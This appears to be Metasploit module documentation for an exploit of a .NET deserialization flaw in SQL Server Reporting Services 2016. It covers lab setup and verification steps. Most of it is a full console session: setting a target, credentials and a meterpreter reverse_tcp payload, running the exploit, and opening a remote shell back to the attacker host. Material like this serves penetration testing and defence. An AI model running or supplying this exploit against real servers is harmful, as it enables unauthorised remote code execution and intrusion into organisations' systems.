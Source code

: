## Vulnerable Application

This module exploits a .NET serialization vulnerability in the SQL Server
Reporting Services web application. The vulnerability exists within the a class
that will load serialized data submitted in a POST request. When processed this
data can lead to code execution within the context of the application which by
default is a service account.

An account is necessary in order to leverage this vulnerability. The request is
submitted using NTLM basic authentication. This account must be assigned at
least the "Browser" role on the site. This is the lowest privilege available and
simply allows the user to view folders, reports and subscribe to reports. To
authenticate as a domain user, set the `DOMAIN` option.

### Service Installation And Setup

Setting up a vulnerable environment for testing is best done by using a SQL
Server 2016 installation ISO which includes an offline installer for SSRS. Later
versions of SQL Server installation ISOs link to an online installer which will
install the patched version automatically.

When installing SQL Server 2016:

  1. Select "New SQL Server stand-alone installation or add features to an
    existing installation"
  1. Later in the "Feature Selection" section, select "Reporting Services -
    Native" under the "Instance Features" group
  1. Proceed with the remainder of the installation per usual

After the server has been installed, it must be configured using the "Reporting
Services Configuration Manager" application. Ensure a database is selected and
created, that both the Web Services URL and Web Portal URLs are activated.
Finally, from the web interface, add accounts and privileges as desired.
Individual accounts can have privileges added by selecting "Manage Folder" and
adding them from this dashboard. **Do not use privileges dashboard available
from "Site Settings" to add the necessary privileges.**

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/http/ssrs_navcorrector_viewstate`
  4. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  5. Do: `run`
  6. You should get a shell.

## Scenarios

### SSRS 2016 on Server 2012 x64

    msf5 > use exploit/windows/http/ssrs_navcorrector_viewstate 
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set RHOSTS 192.168.159.141
    RHOSTS => 192.168.159.141
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set USERNAME jdoe
    USERNAME => jdoe
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set DOMAIN msflab.local
    DOMAIN => msflab.local
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set LHOST 192.168.159.128 
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > check
    [*] 192.168.159.141:80 - The service is running, but could not be validated.
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -  24.99% done (2999/12002 bytes)
    [*] Command Stager progress -  49.98% done (5998/12002 bytes)
    [*] Command Stager progress -  74.96% done (8997/12002 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.141
    [*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.141:50376) at 2020-03-06 16:19:24 -0500
    [*] Command Stager progress -  99.83% done (11982/12002 bytes)
    [*] Command Stager progress - 100.00% done (12002/12002 bytes)
    
    meterpreter > getuid
    Server username: NT Service\ReportServer
    meterpreter > sysinfo
    Computer        : SERVER2012
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 10
    Meterpreter     : x64/windows
    meterpreter >
